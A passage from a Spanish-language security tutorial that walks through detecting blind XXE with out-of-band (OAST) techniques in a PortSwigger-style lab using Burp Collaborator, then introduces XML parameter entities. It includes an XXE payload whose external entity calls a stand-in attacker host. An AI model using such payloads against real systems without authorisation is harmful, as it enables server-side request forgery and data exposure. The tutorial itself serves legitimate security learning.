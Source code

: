 Aún así, esta vulnerabilidad sigue siendo explotable. Existen fundamentalmente dos formas de explotar esta vulnerabilidad.

- Empleando técnica OAST.
- Desencadenando errores que devuelvan información sensible.

#### 5.1. Detectando y explotando XXE usando OAST.

A menudo, se pueden detectar Blind XXEi empleando la misma técnica que XXE SSRF poniéndote en contacto con un sistema de tu propio control, en este caso; BurpCollaborator.

Por ejemplo:

```XML
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Este ataque XXE hace que el servidor realice una solicitud HTTP de back-end a la URL especificada. El atacante puede monitorear la búsqueda DNS resultante y la solicitud HTTP y, por lo tanto, detectar que el ataque XXE fue exitoso.

<br />

**Laboratorio 3: Blind XXE with out-of-band interaction**

Este laboratorio contiene una característica "Check stock" que parsea XML introducido pero no devuelve el resultado por pantalla.

En primer lugar, accedemos al laboratorio y localizamos la funcionalidad en cuestión. Pulsamos el botón e interceptamos la request, añadimos el parámetro anterior y cambiamos el host por el de BurpCollaborator y liberamos la request:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220518133811.png' | relative_url }}" text-align="center"/>
</div>

Seguidamente, vamos a la pestaña del cliente de BurpCollaborator y comprobamos que efectivamente se ha realizado una búsqueda DNS:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220518133847.png' | relative_url }}" text-align="center"/>
</div>

<br />

A veces, los ataques XXE que utilizan entidades normales se bloquean debido a alguna validación de entrada por parte de la aplicación o algún endurecimiento del analizador XML que se está utilizando.

En esta situación todavía se pueden emplear "XML parameter entities" en su lugar. Estos son un tipo especial de entidades XML que sólo pueden ser referenciados desde otro lugar dentro de la propia DTD

Para esta declaración se necesita tener claro dos cosas:

- En primer lugar, en la declaración de un XML parameter entity incluye el '%' antes del nombre de la entidad:

```XML
<!ENTITY % myparameterentity "my parameter entity value" >
```
